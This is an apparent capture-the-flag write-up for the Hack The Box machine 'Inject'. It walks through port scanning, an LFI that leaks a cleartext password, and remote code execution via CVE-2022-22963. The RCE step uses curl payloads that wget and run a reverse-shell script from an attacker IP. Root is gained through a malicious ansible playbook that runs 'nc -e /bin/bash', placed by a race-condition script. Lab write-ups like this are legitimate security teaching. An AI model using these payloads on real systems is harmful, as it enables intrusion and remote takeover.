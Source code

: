 # Inject Machine

## Service Enumeration

To begin with, I start scanning all the ports on the target to obtain an overall picture of the target. For this I use following command ```sudo nmap -sS -p- --min-rate 10000 -v inject.htb```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/f87efa2d-6019-4a49-9069-efb29c05a22a)

Once the open ports are known, I began the service enumeration process. In order to do this, nmap tool was used and, specifically the following command: ```sudo nmap -sS p22,8080 -sV -O inject.htb```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/aa533e57-2818-4297-b948-40a4ef28a87b)

### Port Scan Results

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/4d1eab00-d40e-406e-8994-294097482964)

### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other functions in the service. The command used was ```sudo gobuster dir -u http://inject.htb:8080/ -w /usr/share/wfuzz/wordlist/general/big.txt -x php,txt,zip,py```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/62047ced-8d55-44a2-9ab9-4cfb49dc7b64)

As it can be seen in the picture above, “/upload” is found. If visited, it allows a user to upload images to the web server and then, takes the user to another URL where it shows the recently uploaded picture.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/7cf3535e-5565-44f4-8ffd-ed893ca009d8)

If we click on “View your Image” the web server then take us to a new URL ```/show_image?img=1 (5).jpg``` where it shows the picture.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/bc09fc10-8a65-4b52-88fc-481ae0385558)

Next thing tried was to check if there was some kind of LFI on the “img” parameter using burpsuite and an LFI dictionary (“https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt”).

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/95c9e048-88c4-4825-8a9b-c4783f6f0da0)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/498da40f-2497-43b5-828f-5041d0932866)

As it can be seen, LFI vulnerability is found. The next step is to search for juicy files. A cleartext password for user “phil” is found on “/home/frank/.m2/settings.xml” (DocPhillovestoInject123). 

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/b6162b7e-e759-4ab6-9d34-d0a8cad8de9a)

Another juicy file is found ‘/var/www/WebApp/pom.xml’, inside it, we can see all the dependen-cies used in the application. As it can be seen, it uses spring-cloud-function-web which has a known vulnerability **CVE-2022-22963**

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/35244b90-94c7-495d-8298-d1617454677e)

## Initial Access - RCE

**Vulnerability Explanation** Spring Cloud Function versions 3.1.6, 3.2.2 and older versions are vulnerable to RCE if routing functionality is used. It is possible for a user to provide an specially crafted SpEL as a routing-expression that may result in remote code execution (“https://nvd.nist.gov/vuln/detail/CVE-2022-22963”).

**Vulnerability Fix**: Users should upgrade to version 3.1.7 or 3.2.3. (“https://spring.io/security/cve-2022-22963”)

**Severity**: Critical

**Steps to reproduce the attack**: In order to reproduce the attack, a POST HTTP request must be made. Curl command is the following: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("command-to-execute")' --data-raw 'data' -v``` .  We will obtain RCE and execute commands. PoC obtained here https://github.com/me2nuk/CVE-2022-22963

To obtain a shell in the machine, the following steps were taken:

1.	Create a local sh file containing a bash reverse shell called “shell.sh”. And start a python simple http server on port 8000 in order to serve “shell.sh”

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/2a034e97-c097-4b16-b29a-c3c66c5d54d2)

3.	Download it on the victim using: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.10.14.7:8000/shell.sh -O /tmp/shell.sh ")' --data-raw 'data' -v```

4.	Make it executable using: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/shell.sh ")' --data-raw 'data' -v```

5.	Execute it with: ```curl -X POST  http://inject.htb:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("./tmp/shell.sh ")' --data-raw 'data' -v```

6.	Receive the reverse connection and get the shell.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/ec60f426-95e7-43e3-b8d2-f0f615e6a41d)

## Post-Exploitation

Once accessed, let's retrieve the user flag.

First step is to use the previously found cleartext credential and try to access as user “phil”.

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/275ff06c-4b32-4cbb-9d8d-0f950256f754)

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/e09dcb48-fcb9-4bdc-afb9-e42ee6a605c1)

## Privilege Escalation - Cron Process Exploitation

**Vulnerability Explanation**: Each two minutes a cron process is executed as Root (ansible-parallel). This cron job does the following:

1.	Deletes everything in “/opt/automation/tasks/”, then copies there “/root/playbook_1.yml”.

2.	Executes ```/bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml```.

3.	As a result of the previous command, each yml file is executed using binary “ansible-playbook” ```/usr/bin/python3 /usr/bin/ansible-playbook /opt/automation/tasks/playbook_1.yml```

![image](https://github.com/0xCOrS/WriteUps/assets/97627828/5b5c2462-3df9-49e0-b7ca-3993ccf89877)

Placing a malicious yml file in “/opt/automation/tasks” in the right moment, will result in this file getting executed with elevated privileges (it is important to take into account the race condition that exists as the cron job firstly deletes everything in the folder)

**Vulnerability Fix**: Avoid using wildcards to specify a cron job argument that is run as root.

**Severity**: Critical

**Steps to reproduce the attack**:

1.   Create a malicious yml file with the following content:

```
-  hosts : localhost
   tasks:
    - name: Check pwn
    ansible.builtin.shell: nc 10.10.14.12 4444 -e /bin/bash
    args:
      executable: /bin/bash
```
![image](https://github.com/0xCOrS/WriteUps/assets/97627828/24687aa3-1975-4489-9097-dd29f87d49fb)

2.   Create a bash script to win the race condition with the following content:

```

while true;
do
    if ! [ -e /opt/automation/tasks/pwnbook.yml ]; then
      cp pwnbook.yml /opt/automation/tasks/pwnbook.yml
    fi
done

```

3.    Listen on port 4444 on the attacking machine, execute the bash script in the background and wait for the incoming connection.









